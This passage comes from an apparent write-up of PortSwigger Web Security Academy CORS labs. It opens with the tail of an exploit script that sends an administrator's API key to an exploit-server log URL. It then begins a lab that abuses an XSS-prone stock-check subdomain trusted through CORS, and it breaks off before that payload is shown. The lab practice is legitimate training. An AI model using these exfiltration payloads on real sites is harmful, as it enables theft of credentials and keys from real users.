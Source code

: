 	  function reqListener() {
	    location='https://exploit-0a310064045b9e858037027701af008a.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
	   };
	</script>"></iframe> 
	```
	
	Nice. We got the request from the admin containing the API key.
	
	Submit the key and solve the lab. 

## Exploiting XSS via CORS Trust Relationships

If the vulnerable site trusts an origin that is vulnerable to XSS, then the attacker might be able to inject JavaScript on the *trusted* site that uses CORS to steal sensitive information from the *trusting* site. 

??? example "PortSwigger CORS Lab 3: CORS vulnerability with trusted insecure protocols"

	**Instructions**
	
	This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.
	
	To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.
	
	You can log in to your own account using the following credentials: `wiener:peter`
	
	**Exploit**
	
	Like other labs in this section, there is an API key on the `accountDetails` page. 
	
	![](../../../assets/screenshots/cors/Pasted%20image%2020250801163107.png)
	
	After looking around a little bit, we find that the application is making a call to the insecure site `http://stock.0a5000e703c1293d806a497d00c200d4.web-security-academy.net`. Checking the client-side code when we check the stock of an item shows the following JavaScript code:
	
	```html
	<script>
	    const stockCheckForm = document.getElementById("stockCheckForm");
	    stockCheckForm.addEventListener("submit", function(e) {
		    const data = new FormData(stockCheckForm);
		    window.open('http://stock.0a5000e703c1293d806a497d00c200d4.web-security-academy.net/?productId=1&storeId=' + data.get('storeId'), 'stock', 'height=10,width=10,left=10,top=10,menubar=no,toolbar=no,location=no,status=no');
	        e.preventDefault();
	    });
	</script>
	```
	
	Note that `storeId` takes user input and puts it directly into the request. Seems interesting.
	
	Sending the following request triggers an alert
	